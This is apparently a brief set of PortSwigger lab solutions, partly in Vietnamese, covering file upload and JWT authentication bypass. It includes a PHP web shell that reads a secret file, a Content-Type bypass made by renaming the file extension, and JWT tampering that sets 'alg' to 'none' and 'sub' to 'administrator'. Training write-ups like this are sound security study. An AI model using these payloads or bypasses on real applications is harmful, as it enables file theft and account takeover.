 ## File upload vulnerabilities
### Lab 01: Remote code execution via web shell upload
Upload cmd.php:  
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```  
### Lab 02: Web shell upload via Content-Type restriction bypass
Upload cmd.png:  
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```  
Sử dụng Burp Suite chặn gói tin upload file **cmd.png**, thay đuôi file thành **cmd.php**  
## JWT
### Lab 01: JWT authentication bypass via unverified signature
Sử dụng extension JWT Editor của Burp Suite, thay đổi thông tin:  
  
![JWT_1](https://github.com/ckiev5/portswigger_labs/blob/main/Images/Apprentice/JWT_1.png)  
  
### Lab 02: JWT authentication bypass via flawed signature verification
Sử dụng extension JWT Editor của Burp Suite, thay đổi thông tin **"alg": "none"** và **"sub": "administrator"**:  
  
